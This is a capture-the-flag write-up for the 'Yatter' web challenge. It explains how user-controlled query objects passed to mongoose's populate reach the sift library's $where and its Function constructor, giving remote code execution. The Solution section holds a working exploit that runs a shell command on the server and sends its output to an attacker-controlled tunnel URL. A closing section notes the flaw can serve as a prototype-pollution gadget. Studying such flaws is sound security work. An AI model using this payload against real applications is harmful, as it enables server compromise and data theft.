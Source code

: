 # Yatter Writeup (en)

## Author

@n4o847

## Challenge Overview

Opening the link, you will access a social networking site called "Yatter," similar to Twitter.
Registered users can create posts called "Yeets," follow other users, and like other users' Yeets.

![Yatter](https://i.imgur.com/C4EPeud.png)

Upon reading the distributed files, it appears that the structure of this site is roughly as follows:

- Used Libraries
  - bcrypt
  - ejs
  - express
  - express-session
  - mongoose
- Models
  - `User`
    - `username`
    - `password`
    - `following`
    - `followers`
    - `posts` (virtual)
  - `Post`
    - `author`
    - `content`
    - `likes`
- Pages
  - `/` Timeline
  - `/register` Registration Page
  - `/login` Login Page
  - `/@:username` User Profile
  - `/@:username/:postId` Post Details
- Actions
  - `/register` Register
  - `/login` Log in
  - `/logout` Log out
  - `/post` Create a post
  - `/users/:userId/follow` Follow a user
  - `/users/:userId/unfollow` Unfollow a user
  - `/posts/:postId/like` Like a post
  - `/posts/:postId/unlike` Unlike a post

The purpose of this challenge is to read a secret text file (the name is unknown) located on the server and obtain the flag.

## Vulnerability

When opening a user profile page, you notice that the tabs can be switched:

|`/@:username`|`/@:username?tab=following`|`/@:username?tab=followers`|
|:-:|:-:|:-:|
|![Yeets](https://i.imgur.com/FyMKH7w.png)|![Following](https://i.imgur.com/0qLd3Zw.png)|![Followers](https://i.imgur.com/PP1UWje.png)|

This feature is implemented with the following code.

```js
app.get("/@:username", async (req, res) => {
  const { username } = req.params;
  const tab = req.query.tab ?? "posts";

  const user = await User.findOne({ username })
    .populate(tab)
    .exec();

  const userId = req.session.userId;
  const me = await User.findById(userId);

  res.render("user", { me, user, tab });
});
```

The `User` model has the `following` and `followers` fields, which are arrays of references to other `User`s, and the `posts` field, which is a virtual field.
To materialize these fields, [mongoose](https://www.npmjs.com/package/mongoose)'s [population](https://mongoosejs.com/docs/populate.html) feature is used.

Here, it is known that in express, a `req.query` can accept not only strings, but also arrays and objects.
Additionally, mongoose's `populate` allows various options to be specifed as arguments.

Given these facts, this portion of the code appears to be quite suspicious.

Indeed, when looking at the documentation for [`Model.populate`](https://mongoosejs.com/docs/api/model.html#Model.populate()), it becomes evident that JavaScript code can be executed on MongoDB as shown below:

```js
await User.findOne({ username })
  .populate({
    path: "author",
    match: {
      $where: `...`,
    },
  })
  .exec();
```

However, it seems that the JavaScript interpreter in MongoDB has various restrictions that make it difficult to execute arbitrary code.

... Is it really so?

---

From here, it might require a bit of patience.
In conclusion, there is a vulnerability in mongoose's `populate` function that allows for arbitrary code execution, and that is what we will be looking for.

Let's trace how `populate` is invoked within mongoose.

[`Model.populate`](https://github.com/Automattic/mongoose/blob/7.6.3/lib/model.js#L4261-L4282) calls `_populate`, which in turn calls `populate` for each path, which then calls `_assign`, which finally calls `assignVals`.

In `assignVals`, you will notice [a quite suspicious snippet](https://github.com/Automattic/mongoose/blob/7.6.3/lib/helpers/populate/assignVals.js#L97-L99):

```js
      valueToSet = Array.isArray(rawIds[i]) ?
        rawIds[i].filter(sift(o.match[i])) :
        [rawIds[i]].filter(sift(o.match[i]))[0];
```

It seems that when the `match` property in the options passed to `populate` is an array, a function from the [sift](https://www.npmjs.com/package/sift) library is invoked.

This sift library converts MongoDB-like queries into filter functions, however, it handles them in JavaScript itself instead of sending BSON data to MongoDB, causing different behavior.
Reading sift's [`$where` implementation](https://github.com/crcn/sift.js/blob/225980417e49d3d1124ef7338ee8673b8da836ff/src/operations.ts#L393-L411), you can see that it dynamically generates functions using the `Function` constructor:

```js
export const $where = (
  params: string | Function,
  ownerQuery: Query<any>,
  options: Options
) => {
  let test;

  if (isFunction(params)) {
    test = params;
  } else if (!process.env.CSP_ENABLED) {
    test = new Function("obj", "return " + params);
  } else {
    throw new Error(
      `In CSP mode, sift does not support strings in "$where" condition`
    );
  }

  return new EqualsOperation(b => test.bind(b)(b), ownerQuery, options);
};
```

Exactly, by passing code like `match: [{ $where: ... }]`, arbitrary code can be executed!

Note that the code is executed within the MongoDB internal JavaScript interpreter before being executed with `Function`, so you need to distinguish where the code is executed using constructs like `typeof process === "undefined" ? true : ...`.

## Solution

Let's assume there is a registered user with the username `@a`.

```js
const express = require("express");
const localtunnel = require("localtunnel");

async function main() {
  const remoteHost = process.argv[2] ?? "localhost";
  const remotePort = parseInt(process.argv[3] ?? "18080", 10);

  const localPort = 3000;

  const app = express();

  app.get("/", (req, res) => {
    console.log(req.query.flag);
    res.send("ok");
  });

  const server = await new Promise((resolve) => {
    const server = app.listen(localPort, () => resolve(server));
  });

  const username = `a`;

  const tunnel = await localtunnel({ port: localPort });

  const payload =
    `typeof process === "undefined" ? true : fetch("${tunnel.url}/?flag=" + process.mainModule.require("child_process").execSync("cat flag-*.txt"))`;
  const params = new URLSearchParams({
    "tab[path]": "posts",
    "tab[match][][$where]": payload,
  });

  await fetch(
    `http://${remoteHost}:${remotePort}/@${username}?${params}`,
  );

  tunnel.close();
  server.close();
}

main();
```

## Further Exploitation

This vulnerability occurs only when arbitrary objects are passed to populate.
However, with prototype pollution, arbitrary code execution might occur through other means as well.
In other words, this vulnerability can be utilized as a prototype pollution gadget.

For instance, the [`Model.insertMany`](https://mongoosejs.com/docs/api/model.html#Model.insertMany()) function, which is used for bulk data insertion, takes the populate option as a parameter.
Inside `insertMany`, there is [a conditional check like this](https://github.com/Automattic/mongoose/blob/7.6.3/lib/model.js#L3242):

```js
        if (options.populate != null) {
```

Consequently, even if the `populate` option is not explicitly specified in the program, if `Object.prototype` is polluted, arbitrary code execution becomes possible.
